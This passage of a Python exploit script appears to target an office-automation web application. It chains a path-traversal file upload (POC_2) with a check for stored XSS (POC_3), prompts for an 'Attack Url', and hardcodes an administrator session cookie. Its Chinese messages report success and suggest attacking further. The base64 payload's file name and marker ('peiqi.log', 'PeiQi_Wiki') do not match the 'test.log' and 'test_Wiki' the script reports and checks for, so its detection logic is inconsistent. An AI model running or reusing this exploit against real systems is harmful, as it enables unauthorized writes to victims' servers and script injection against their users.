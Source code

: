 ```python
def POC_2(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/test"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
        "Connection": "close",
        "Cookie":  Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0icGVpcWkubG9nIgpDb250ZW50LVR5cGU6IHRleHQvcGxhaW4KClBlaVFpX1dpa2kKLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9InN1Ym1pdCIKCuaPkOS6pAotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0LS0=")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/test \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传 test.log 文件, \033[0m".format(target_url))
            POC_3(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传 test.log 文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, Cookie):
    vuln_url = target_url + "/general/reportshop/workshop/report/attachment-remark/form.inc.php?test=test"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":  Cookie,
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/reportshop/workshop/report/attachment-remark/form.inc.php?test=test \033[0m".format(target_url))
        if "test_Wiki" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞，响应中包含 test_Wiki,存在XSS漏洞, 可参考文章写的利用版本进一步攻击 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞，响应中不包含 test_Wiki\033[0m".format(target_url))
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Cookie = "USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31"
    POC_1(target_url, Cookie)
```